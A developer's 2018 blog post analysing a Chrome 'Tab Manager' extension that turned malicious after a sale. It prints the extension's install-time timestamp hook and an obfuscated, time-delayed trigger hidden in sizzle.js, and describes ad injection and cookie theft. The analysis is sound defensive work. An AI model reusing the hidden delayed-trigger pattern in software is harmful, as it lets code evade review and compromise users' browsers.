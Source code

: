 ```yaml
---
title: "How a chrome extension turned to the Dark Side"
date: 2018-05-14
tags: ["chrome", "extension", "browser", "malicious extension"]
draft: false
---
```

*This is a short story and malware analysis of a chrome extension that served people well then the developer sell it to the malicious advertisement company.*

### Discovery
As you may know, recently I have published an extension (yes! one more tab manager for the world) [SplitUp! - Tab Manager](https://chrome.google.com/webstore/detail/splitup-tab-manager/bhoodecbejheonelhikcfahgpgahffmf). I was looking for a way to improve it and Chrome Web Store is a great place to see other extensions to get inspired for new ideas. I searched "tab manager" to get a general list, then I saw this extension with 50K+ users, well the name of the extension wasn't so hard to guess "Tab Manager" 🤔 but I guess this is what people search.
![Tab Manager extension screenshot on web store](/images/screenshot.png)
### Bad smell
I checked screenshots and decided read reviews to see what people say about it. Well, they were not great. Apparently, from the latest update, the extension showed some malicious behavior such as injecting ads into users' search result without users' contest.  It seemed like many people have already reported the extension but no action has been taken until recently it has been removed. It says usually it takes 2-3 weeks for the extension to be removed from the store. The good news is that after Google flags an extension as a malware, the extension automatically being removed from the current users' browsers. Before it got deleted, I managed to do some analyzes on it and try to see what exactly this extension tries to achieve and how. Since I wasn't really sure what exactly other than ads injection this extension capable of. I decided to utilize my virtual machine for this and install it there.
![Review about Tab Manager on web store](/images/review1.png)
![Review about Tab Manager on web store](/images/review2.png)
### Deep down to the code
First of all, the extension doesn't act maliciously for a while. Once you install it, it stores the current date in the local storage, here the piece of code that was taken from the source
```
chrome.runtime.onInstalled.addListener(function() {
  chrome.storage.local.set({
    time: new Date().getTime()
  });
});
```
This was interesting, at the beginning I didn't quite get why this weird date saves to the storage and no ads showing in my search result as reported by users and the extension made no network activity. The extension also blocked [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) which could mean the extension uses some kind of Command and Control technique to get instruction or get some kind of javascript file from an external source. I decided to dig in a bit more which led me to think that there must some code checking for time or something. 
#### It is there
"Tab Manager" uses React to render UI and Sizzle CSS Selector. After Searching the files for a while for the suspicious behavior I came across abnormal local storage check in sizzle.js :
```
chrome.storage.local.get('time', function (res) {
      if (res.time) {
        var time = (new Date().getTime() - res.time) / 3600000;
        if (time >= 8) {
          slzzle[1][
            (function (nextNode) {
              var attrNames = nextNode[0].attr[index];
              return attrNames.replace(/\>/g, '|').split('|')[1];
            })(slzzle)
          ][
            []
              .concat(appendTypes)
              .concat(nodeType[0].replace('c', nodeType[index][0].toUpperCase()))
              .join('')
          ](element);

          // remove after created for pseudo elements
          element[nodeType[1]].removeChild(slzzle[index].tag);
        }
      }
    });
  })(xpathcurcssesace(document));
```
Boom! this is it! As you see the code checks if a user has been using the extension for a while since I was a new user it behaved as expected. I brought forward my machine's time to a year early and gave a try to extension again.
### Request to the dark side
As expected, the extension started to make an HTTP request to an external source and downloaded a 665KB javascript file which instructs the extension to inject ads, steal and set cookies and so on.
![malicious http request by the extension](/images/httprequest.png)
It is 10913 lines code inside the file and I am not going to into details, a few interesting points are a huge amount of HTTP request and new javascript files are being downloaded based on the website user visits. They made sure that user will have a native ads experience on every page, hence in every website a new instruction is being downloaded. Every click is recorded in cookies and also send to remote URL. The huge number of websites are covered, from Russian email services mail.ru, yandex.ru to almost all social networks, search engines etc.

![url check for facebook](/images/fb.png)

In case a user is on the bitconnect registration form it injects ads to the form

![registration form](/images/registration.png)

It seems like some domains are ignored such as paypal, google drive and .gov domains.

![ignored domains](/images/ignoredDomains.png)

## Conclusion
Unfortunately, these days some developers sell their extension after it gains popularity. This is a huge risk since already downloaded extension will get updated with malicious code without user's contest. It has been showing that Chrome Web Store automatic code check is not perfect for detecting this kind of malicious behaviors. The best solution seems to be conscious and use extensions that are come from a reliable source or open-source. Although, this extension was an open-source project and it still managed to inject people's browser activities.

__The extension has been reported and being removed from the Web Store.__


